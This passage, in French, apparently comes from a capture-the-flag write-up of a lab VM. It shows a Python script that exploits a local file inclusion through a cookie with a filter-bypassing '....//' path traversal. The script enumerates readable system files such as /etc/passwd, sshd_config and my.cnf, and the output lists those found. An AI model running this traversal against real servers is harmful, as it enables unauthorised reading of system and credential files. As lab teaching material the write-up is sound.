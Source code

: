 On peut donc naviguer dans l'arborescence. Qui plus est, on a obtenu des usernames supplémentaires (mais les scripts de brute-force ne donnent rien de plus pour autant).  

Je réutilise la technique d'énumération via *include(*) employée sur le [LAMPSecurity CTF4](http://devloop.users.sourceforge.net/index.php?article96/solution-du-ctf-lampsecurity-ctf4), en adaptant le script au point d'injection :  

```python
import requests

fd = open("logs.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get("http://192.168.1.29/super_secret_login_path_muhahaha/panel.php",
            headers={"cookie": "intruder=....//....//....//....//....//....//....//..../{0};".format(word)},
            allow_redirects=False)

    if int(r.headers['content-length']) != 239:
        print "Contenu trouve avec", word

fd.close()
```

Ce qui donne :  

```plain
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/log/wtmp
Contenu trouve avec /var/run/utmp
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/motd
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /etc/apache2/apache2.conf
Contenu trouve avec /etc/apache2/sites-enabled/000-default
Contenu trouve avec /etc/apache2/sites-available/default
Contenu trouve avec /etc/ssh/sshd_config
Contenu trouve avec /etc/mysql/my.cnf
Contenu trouve avec /etc/php5/apache2/php.ini
Contenu trouve avec /var/log/faillog
```

Pas d'accès à des logs *Apache*... Comment transformer notre faille include en RCE (remote code execution) ?  
